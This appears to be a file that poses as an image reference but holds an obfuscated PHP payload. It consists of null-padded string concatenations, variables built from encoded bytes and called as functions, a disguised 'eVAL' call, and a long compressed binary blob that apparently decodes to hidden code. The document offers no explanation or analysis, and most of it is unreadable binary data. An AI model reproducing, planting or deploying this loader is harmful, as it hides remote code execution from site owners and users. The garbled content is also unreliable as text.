 ' . "\0" . '' . "\0" . '' . "\0" . '');$���������࿣ݲ�������׿ƚ����������������Ӱϫ���������ͦ����������ծ�꣰�ӯ�ٜ�����������ɧ����������Ц���=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K�-(�' . "\0" . '�=�h' . "\0" . '' . "\0" . '' . "\0" . '');$��ﭺ������������������������Ѡͦ������̨����ϟ�����٠�ѥ�����������ϩĥ�������������ʛ��յ��ʽ�����䰦=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+)��' . "\0" . '�P' . "\0" . '' . "\0" . '' . "\0" . '');$�������Ƭ��Ź�����Ʒ������֠�ѽ������ݷ���۾誩����˟���Ⱥ������槨����Գ�ܺ����������������ܽ���ͺ����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+(JM��M,I�' . "\0" . '' . "\0" . '3R-\\
' . "\0" . '' . "\0" . '' . "\0" . '');eVAL($�������ϩϰ�Ǿ���ɯ���ڢ�Ը��꡿�޾ƪ�����������ҵ�������С��ɣ��������������������߼���׮�֭��߽Ũ�ٳ��('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '��yPS���iŪ�u��[kժ�(OZ���j]�R���kE��Z�jՊv���}j�JBB������$$$!dOȾ��@B6d��u~����0�{�~���3w9�s�=�{��?Z�����s`,��VB�@mf�L��a+���I*�"�Y��i$��IUB*�Ʒ��5܀1im�3{Ԅf�ŉ��khX����A�V�C�8-ؐ)s�k(��u��ȯY� ؘj�mu)1J"V��t��b�.m���t���l��Z�S҃��<}~5%�7�R	o�/�t&��f�l�]��3�au�:����<]�ã�M4�DfI/z���Es�͝W�7��Ţ����%˲s�rG�X�ʘ[c^ց��L��6`0�4' . "\0" . ')�e$^O��YE�`Ջ�
AxU��\'(�h��k�}����c��)C}Ð�S�1��f
ܑ��$�]�
N��X���S$�jZ�ȶ�N(*,V��~�t/�����Om��)��hk\'��>�0P�53��Mx�����\'QX���E�,7���>,)z/��������>�S��<N�-
�7*��R��͵=a��#F�p�
�����#JQ��:�>&p�4���J�2�e}�|q�]Ƥ��lU��_���\\ ��t�D��%���qP���mk��H/I��p-,)8h��#$����8���lm�6\\^�D�RG���c�.v��p�H-���;��j��Qu���C�*�V
��:^���rXjV��[f�P��B�������V��W�vw��.�f�ƛ{҉�*	��k�w�-Z���^��8gY��/�M�\\_?�N� 	���l�K4&�6V�b�IR�*��
4�*^k� �Ǒ�
o�r�rQ:N���ul���X����~����b�)�e�b1b�A����S��Nb�6���+����r�p��p~��Q�8M��.�jMI��WH�Rl��\'���i�P]��J�' . "\0" . '8��v
�&�$*�i
������@XDT' . "\0" . '���6�L�==��Z�=��D���t��$�]*+�WR�{�D�\\R(_��Rsބ�}��3��6�%��v�g0������.O�"��p]CNe���D�#��z����
�:��x������#�ca;
E�T�ޤޝ�����.,��Dׅ����2A��q���^���f���GɜB���qzW����3uՊ
�:2j�P�{����.�W����ޖ!������V$�>�����;���n3�T���vv؍7``���$�@�k�����z�#|�����⥅��I��������k�	�1e����F�Q$E ��j,:�l9�
�$��	��{ȨJ��U_�>�bPX%��R$ȃ!S���LS��`SCM�Fk�cR' . "\0" . '����q�$i��ɶ��bɹh���JKI�X�J���lb��f4�W��E��b' . "\0" . '�@&���[�]<ZM�S1��M��@��EJ����]��RY*�k����~b���7x�
�P����.�,[R(i�̝���aG�6~GX� Ǔ`N2��m�j0�A�' . "\0" . ')/�
U3�t�Ps��\\Hm0n�������l���:^�ij��h�' . "\0" . '��Hv�~���L2!��&
!�U�z�#�Z��P�)���`�F���pd3G�%Vǐ��' . "\0" . '�$r
�ڐ4\\�l@1�$�]����0����yxMo�@Z!�c�Qi���:�����f�G���Fc;!P����' . "\0" . '�5ښG6��T,��Ԗ\'�-�n�0�&�
�uP߬�J}���-�P���2����&
�k��d�3Ds��������ȽO��&e��4��j
U��iE*d
�@
ݰ�Nk3`�h��G@���X��#Y~{yQ�hy�X����䴓�>�0\\�����-0[u����
 ��2��.ȑ��|��-��1�u��p�`��B�j�=�,�PE��p� 
����E	�<��㻒\\�Cd�v)�8�+�V����J_g�w��;�|�H���Ѳ|ћW�;� ��(Y�@�Aa�jSDp���H�	�}��_Q�Ƨ�
/ߨ\'-�L��� H���Qq�T0f4�h��~Uć�a�`�j��ëdV�Q��0P��6���.�]�y)���=\\j�2^e�c�D���k�r7C�D/Eg�=6�B��D
!��)�\\	Z$����_\\mk� ���Nr������\\ݑJ&19�WӬ�\'�k�M�!@I��K�%��`;��2���	SQ:�Ю��Tv������j[�
���e��ָO�D��(%�U�$t�: 6��1-t�/�kk��HjM ' . "\0" . '����@���S�hH���E?��X#\\�?<�!) l�C��M��:0�+BWA1MIpc\'ؚV!j�"�' . "\0" . '�BI��ө��
��m�j���)�`�����(X���1-�z(��v��6���' . "\0" . 'a:ihL���Zl~v�b��ol*U_���b�Wste�S�5�ʗ�Fܠ0�>�.�=q�$����8��5�2Be0Z��C�
�>;ڮE�;�#��1B?j+J*�i@��J�C!�ĉ��x���6S�7c]y���?"��N8���T�\'